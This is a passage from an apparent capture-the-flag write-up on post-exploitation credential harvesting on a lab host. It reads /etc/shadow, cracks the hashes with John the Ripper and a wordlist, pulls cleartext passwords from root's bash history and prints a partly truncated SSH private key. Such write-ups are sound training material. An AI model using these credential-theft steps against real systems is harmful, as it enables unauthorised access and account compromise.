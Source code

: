 Looking around, we can output the content of `/etc/shadow` and try to brute force users passwords. We find 1 weak password.

```bash
root@ip-10-80-36-98:/home/secureadmin# cat /etc/shadow
ubuntu:!$6$oTF4j[...]in0:19342:0:99999:7:::
gracel:$6$v/e2u[...]4qwI0:19342:0:99999:7:::
marshap:$6$XzRbc[...]SP0I.:19342:0:99999:7:::
zacf:$6$1ew6HCB.$VhJK[...]j9Ccp1:19342:0:99999:7:::
hashirc:$6$FIps2Ed3$9d0[...]AIeP.:19342:0:99999:7:::
freddyw:$6$cUeSYoln$Ne[...]xDP/:19342:0:99999:7:::

######

┌──(vagrant㉿kali)-[~]
└─$ unshadow passwd shadow

└─$ john --wordlist=/usr/share/wordlists/rockyou.txt unshadow.txt
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mypass           (hashirc)
```

However there's an easier way. Looking at the `root` user bash history, we see how the users were setup

```bash
root@ip-10-80-36-98:/home# cat ubuntu/.bash_history
sudo mv ctf-prod-key.pem ./.ssh/
ls
sudo echo -e "jdong1025\njdong1025" | sudo passwd ubuntu
sudo visudo
exit
sudo passwd --delete secureadmin
sudo passwd --delete pauloc
sudo echo -e "3r5RDNLqGhrBqmCK\n3r5RDNLqGhrBqmCK" | sudo passwd gracel
sudo echo -e "MRLcRJ5cfJSC8gzC\nMRLcRJ5cfJSC8gzC" | sudo passwd marshap
sudo echo -e "ap8GF3A8YJxNqnY5\nap8GF3A8YJxNqnY5" | sudo passwd zacf
sudo echo -e "mypass\nmypass" | sudo passwd hashirc
sudo echo -e "wizisthebest\nwizisthebest" | sudo passwd freddyw
exit
```

Beyond the passwords the other interesting piece of information is the SSH private key.

```bash
root@ip-10-80-36-98:/home/secureadmin/.ssh# cat ctf-prod-key.pem
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEApzvfYeTF0JS7vQUrLh4yeMLruZXllAYjp+T7v2Iy+V8XXVtD
[...]
AiMf2DhQuB8r11abod6V6+xuC45dGkwt/RXdla/XNtmolczQ89My
-----END RSA PRIVATE KEY-----
```
